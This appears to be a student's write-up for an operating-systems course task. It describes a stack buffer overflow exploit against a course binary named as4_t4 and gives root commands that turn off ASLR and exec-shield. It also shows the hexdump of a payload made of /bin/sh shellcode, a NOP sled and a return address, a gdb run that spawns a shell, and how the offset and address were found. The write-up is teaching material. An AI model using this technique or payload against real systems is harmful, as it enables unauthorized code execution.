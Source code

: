# Documentation on task 4
-------------------------
## Preparation
To make sure all security measurements are turned off, run the following:

    $ sudo -i
    # echo 0 > /proc/sys/kernel/randomize_va_space
    # echo 0 > /proc/sys/kernel/exec-shield   

## How to create and run the exploit
This creates a file `exploit`, with a crafted string to run `/bin/sh` using the vulnerable `as4_t4`

    $ perl exploit.pl

It should look like this (check with `hexdump -C exploit`):

    00000000  31 c9 f7 e1 51 68 2f 2f  73 68 68 2f 62 69 6e 89  |1...Qh//shh/bin.|
    00000010  e3 b0 0b cd 80 90 90 90  90 90 90 90 90 90 90 90  |................|
    00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
    *
    00000060  90 90 90 90 90 90 90 90  90 90 90 90 30 f6 ff bf  |............0...|
    00000070

You can see it working by entering:

    $ gdb ./as4_t4
    (gdb) run `cat exploit`
    Starting program: /home/oscourse/task-4/as4_t4 `cat exploit`
    process 2381 is executing new program: /bin/dash
    $ ls
    as4_t4	as4_t4.c  exploit  exploit.pl
 
## How we crafted the exploit
We figured out that the return address was set after 108 chars of input (which means 28 characters after `buf`, which is 90 chars). At this place we wanted to insert the location for the given buffer, so the program would run shell code from our own buffer. We found that buffer address by recompiling the `as4_t4.c` (with buffer length now set to 96) so we could run it in `gdb` and set some breakpoint on a certain line (we used as4_t4.c:8, just after the overflow). At the break we could use the command `p/x &buf` to see the buffer's location and could confirm by repeating this procedure it wouldn't change over time. The location was therefore `0xbffff630` (see last 4 bytes of the hexdump).
 
We've used [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-517.php) to spawn `/bin/sh`. This is set at the beginning of the buffer (see lines 00-10). The middle part is stuffing with NOP (lines 10-60) till we are at 108 bytes and add the aforementioned return address.